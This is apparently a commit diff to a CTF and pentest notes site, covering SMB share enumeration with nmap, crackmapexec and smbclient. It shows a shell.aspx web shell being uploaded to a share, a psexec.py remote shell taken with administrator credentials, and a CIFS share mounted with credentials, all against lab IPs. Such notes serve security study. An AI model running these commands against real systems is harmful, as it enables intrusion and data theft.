

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/services.md, in a window 1280 px wide and 1400 px high, scrolled down 1970 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add smb psexec and cifs

````diff
--- a/docs/pentest/services.md
+++ b/docs/pentest/services.md
@@ -64,15 +64,11 @@ backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp
 
 ## Samba (port 139, 445)
 
+### List shares
+
 ```bash
 $ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.220.222
-Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 13:35 CET
-Nmap scan report for 10.10.220.222
-Host is up (0.042s latency).
-
-PORT    STATE SERVICE
-445/tcp open  microsoft-ds
-
+[...]
 Host script results:
 | smb-enum-shares:
 |   account_used: guest
@@ -84,41 +80,14 @@ Host script results:
 |     Path: C:\tmp
 |     Anonymous access: READ/WRITE
 |     Current user access: READ/WRITE
-|   \\10.10.220.222\anonymous:
-|     Type: STYPE_DISKTREE
-|     Comment:
-|     Users: 0
-|     Max Users: <unlimited>
-|     Path: C:\home\kenobi\share
-|     Anonymous access: READ/WRITE
-|     Current user access: READ/WRITE
-|   \\10.10.220.222\print$:
-|     Type: STYPE_DISKTREE
-|     Comment: Printer Drivers
-|     Users: 0
-|     Max Users: <unlimited>
-|     Path: C:\var\lib\samba\printers
-|     Anonymous access: <none>
-|_    Current user access: <none>
-
-Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
+[...]
 ```
-
-**3 shares :**
-
-1. `\\10.10.220.222\IPC$`
-2. `\\10.10.220.222\anonymous`
-3. `\\10.10.220.222\print$`
-
-SMB client for linux (`smbclient`) :
-
-List shares :
 
 ```bash
 $ crackmapexec smb 10.10.86.204 --shares
+```
 
-or
-
+```
 $ smbclient -L 10.10.86.204
 Password for [MYGROUP\xanhacks]:
 
@@ -130,6 +99,8 @@ Password for [MYGROUP\xanhacks]:
         nt4wrksv        Disk
 SMB1 disabled -- no workgroup available
 ```
+
+### Download / upload files
 
 ```bash
 $ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
@@ -148,6 +119,8 @@ Put file shell.aspx? y
 putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
 ```
 
+### Recursive download
+
 Recursively download all the files of the share using `smbget -R` :
 
 ```bash
@@ -156,6 +129,35 @@ Password for [xanhacks] connecting to //anonymous/10.10.220.222: <press enter>
 Using workgroup WORKGROUP, user xanhacks
 smb://10.10.220.222/anonymous/log.txt
 Downloaded 11.95kB in 1 seconds
+```
+
+### Shell over SMB (psexec.py)
+
+How [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) works ?
+
+1. Establishes an SMB network connection to a target system using administrator credentials
+2. Pushes a copy of a receiver process named PSEXESVC.EXE to the target system’s ADMIN$ share
+3. Launches PSEXESVC.EXE, which sends input and output to a named pipe
+
+```bash
+$ crackmapexec smb 10.10.10.182 -u administrator -p 'pass123'
+SMB ... (Pwn3d!)
+$ psexec.py administrator:pass123@10.10.10.182
+[...]
+C:\Windows\system32>
+```
+
+## CIFS (port 445)
+
+CIFS (Common Internet File System) is a protocol that gained popularity around the year 2000, as vendors worked to establish an Internet Protocol-based file-sharing protocol.
+
+CIFS is now considered obsolete, because most modern data storage systems use the more robust Server Message Block (SMB) 2.0 and 3.0 file-sharing protocols, which were major upgrades to CIFS.
+
+### Mount partition
+
+```bash
+$ mkdir /mnt/data
+$ sudo mount -t cifs -o 'user=r.thompson,password=admin123' //10.10.10.182/Data /mnt/data
 ```
 
 ## RDP (port 3389)
````
